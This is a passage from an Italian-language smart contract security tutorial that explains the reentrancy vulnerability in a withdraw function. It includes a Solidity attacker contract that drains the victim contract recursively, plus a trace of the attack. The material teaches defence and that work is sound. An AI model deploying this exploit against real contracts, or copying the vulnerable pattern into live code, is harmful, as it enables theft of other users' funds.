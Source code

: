 Per consentire a un utente di prelevare gli ETH precedentemente archiviati nel contratto, questa funzione

1. Legge il saldo dell'utente
2. Gli invia l'importo del saldo in ETH
3. Imposta il saldo a 0, in modo che non sia possibile prelevarlo nuovamente.

Se chiamato da un account standard (ad esempio un account Metamask), questo codice funziona come previsto: msg.sender.call.value() invia semplicemente il saldo ETH. Però anche gli Smart Contract possono effettuare chiamate. Se quindi è un contratto maligno modificato a chiamare `withdraw()`, msg.sender.call.value() non invierà solo `amount` (l'importo) di ETH, ma chiamerà anche implicitamente il contratto per iniziare l'esecuzione del codice. Immagina che a chiamare sia questo contratto maligno:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Chiamando Attacker.beginAttack() si avvierà un ciclo del tipo:

```
0.) EOA di Attacker chiama Attacker.beginAttack() con 1 ETH
0.) Attacker.beginAttack() deposita 1 ETH in Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim legge balanceOf[msg.sender]
  1.) Victim invia ETH a Attacker (che esegue la funzione default)
    2.) Attacker -> Victim.withdraw()
    2.) Victim legge balanceOf[msg.sender]
  2.) Victim invia ETH a Attacker (che esegue la funzione default)
    3.) Attacker -> Victim.withdraw()
    3.) Victim legge balanceOf[msg.sender]
  3.) Victim invia ETH a Attacker (che esegue la funzione default)
    4.) Attacker non ha abbastanza carburante, restituisce il risultato senza chiamare di nuovo
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (era già 0)
  1.) balances[msg.sender] = 0; (era già 0)
```

Chiamando Attacker.beginAttack con 1 ETH si attacca Victim con codice rientrante, prelevando più ETH rispetto alla disponibilità (prendendoli dai saldi di altri utenti e rendendo il contratto Victim non collateralizzato)

